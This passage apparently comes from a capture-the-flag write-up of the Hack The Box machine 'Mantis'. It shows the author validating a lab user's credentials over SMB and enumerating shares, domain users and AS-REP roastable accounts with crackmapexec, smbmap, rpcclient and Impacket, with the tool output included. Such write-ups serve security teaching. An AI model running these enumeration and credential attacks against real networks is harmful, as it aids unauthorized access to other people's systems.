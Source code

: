 ```

root@kali# crackmapexec smb 10.10.10.52 -u james -p 'J@m3s_P@ssW0rd!'
SMB         10.10.10.52     445    MANTIS           [*] Windows Server 2008 R2 Standard 7601 Service Pack 1 (name:MANTIS) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.52     445    MANTIS           [+] htb.local\james:J@m3s_P@ssW0rd! 

```

Since it doesn’t say `(Pwned!)`, I can’t likely get execution through SMB.

I can see two shares now:

```

root@kali# smbmap -H 10.10.10.52 -u james -p 'J@m3s_P@ssW0rd!'
[+] IP: 10.10.10.52:445 Name: 10.10.10.52                                       
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    NO ACCESS       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        SYSVOL                                                  READ ONLY       Logon server share 

```

I poked around in both, but didn’t find much.

### RPC - TCP 445

james can connect to RPC and list users:

```

root@kali# rpcclient -U htb.local/james 10.10.10.52
Enter HTB.LOCAL\james's password: 
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[james] rid:[0x44f]

```

Nothing too exciting here.

### Kerberos

With a user, now I can dump the full list of ASP-REP vulnerable users, but there aren’t any:

```

root@kali# GetNPUsers.py 'htb.local/james:J@m3s_P@ssW0rd!' -dc-ip 10.10.10.52
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

No entries found!

```

